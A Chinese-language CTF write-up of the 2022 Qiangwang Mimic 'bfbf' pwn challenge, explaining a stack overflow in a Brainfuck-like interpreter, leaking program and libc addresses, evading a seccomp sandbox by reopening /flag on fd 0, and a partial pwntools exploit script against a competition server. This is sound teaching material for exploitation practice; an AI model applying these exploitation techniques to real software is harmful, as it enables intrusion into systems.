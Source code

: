 ```yaml
---

title: 「PWN」【强网拟态2022】复现 WP

tags: ['CTF', 'Pwn', ]

categories: ['CTF']

authors: [nova]

---
```




# 「PWN」【强网拟态2022】复现 WP

[附件仓库](https://github.com/Nova-Noir/NovaNo1r-pwn-challenges/tree/main/强网拟态2022/)

除了 `pwn` 分类外，这次比赛还有一个 `mimic` 分类也有题目，但是因为太简单了所以就不写 wp 了看看 exp 就好。



## bfbf

整个程序通过读入一些符号并对接下来输入的字符串进行一系列操作。

但是字符串数组只有 `520` 个字节的长度，而操作符却可以达到 `0xfff` 个字节，所以存在栈溢出。

值得注意的是 `[`和 `]` 实现了一个循环结构，虽然好像不用这个也够写（没测试）

> `word_4062` 即为图二的 `bracket_arr`

![sym_read](https://novanoir-aliyun-oss.oss-cn-hongkong.aliyuncs.com/img/image-20221108112206978.png)

![str_read](https://novanoir-aliyun-oss.oss-cn-hongkong.aliyuncs.com/img/image-20221108112740265.png)



同时，我们可以在栈上找到一些可以用的数据来泄露程序基址和 `libc`

![](https://novanoir-aliyun-oss.oss-cn-hongkong.aliyuncs.com/img/image-20221108113456187.png)

之后即可 `ROP` 。但是程序有沙箱，禁止了 `fd > 0` 的 `read` 操作以及 `execve` 获取 `shell`。此时我们可以通过关闭 `fd=0` 的 `stdin` 再进行 `open("/flag")` 来获取 `fd=0` 的文件描述符。

除此之外，正常 `orw` 即可

```python
from pwn import *

context(log_level='DEBUG', arch='amd64', os='linux')
context.terminal = "wt.exe nt bash -c".split()

# sh = process(['./pwn'])
elf = ELF('./pwn')
libc = ELF('./libc.so.6')
sh = remote("172.51.65.235", 9999)

payload1 = b",[>,]"  # padding loop
payload1 += b">"*0x0F  # padding to proc
payload1 += b">."*0x6  # retrieve proc
payload1 += b">"*0x1A  # padding to libc
payload1 += b">."*0x6  # retrieve libc
payload1 += b"<"*0x25  # fallback to overwrite return addr
payload1 += b",>"*(29*0x08)  # orw!

sh.sendafter(b"BF_PARSER>>", payload1)
```